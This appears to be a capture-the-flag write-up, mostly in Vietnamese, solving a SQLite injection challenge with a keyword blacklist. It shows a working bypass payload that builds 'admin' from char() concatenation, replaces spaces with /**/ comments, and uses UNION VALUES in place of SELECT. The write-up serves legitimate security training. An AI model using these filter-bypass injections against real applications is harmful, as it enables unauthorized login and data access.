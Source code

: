 # Discription:

You cannot create the query because we have blocked the following keywords. Challenge you to bypass it, how to know after each SQL Keyword you will be used what SQL statement. The blacklist sqli_filter = '[', ']', ',', 'admin', 'select', ''', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' '.

The vulnerable parameter is 'level' in Login function.

Goodluck guys (｀∀´)Ψ

# Solutions:

= Bởi đây là SQLite, với đề bài là block admin,...

=> Phải biến admin thành các chuỗi nối nhau.

= Trong Sqlite, nối chuối dùng || || :

`SELECT 'Anh'||' '||'Em';`

=> Anh Em 

=> admin chính là `char(97)||char(100)||char(109)||char(105)||char(110)`

= Lưu ý // = /****/

= Khi đăng nhập `username` là a, `password` là a thì thu được:

<img width="436" height="367" alt="image" src="https://github.com/user-attachments/assets/d1173b7e-3057-438d-ad4e-160037221e0b" />

= Trong SQLite, VALUES có thể thay thế SELECT để trả về dữ liệu. Và gắn liền với VALUES là các `level`:

Ví dụ: 
```
VALUES(1,'Alice')
UNION
VALUES(2,'Bob');
```

=> Lúc này ta có 2 level là 1,2.

= Bài này thử test từ level1:

```
SELECT uid FROM users WHERE uid=‘{uid}’ and upw=‘{upw}’ and level=1/**/union/**/values/**/(char(97)||char(100)||char(109)||char(105)||char(110))
```

=> Vậy ngay `level1` ta đã thu được flag :>
<img width="915" height="409" alt="image" src="https://github.com/user-attachments/assets/def04a8a-4de5-41bf-b026-a414e8c01a7e" />

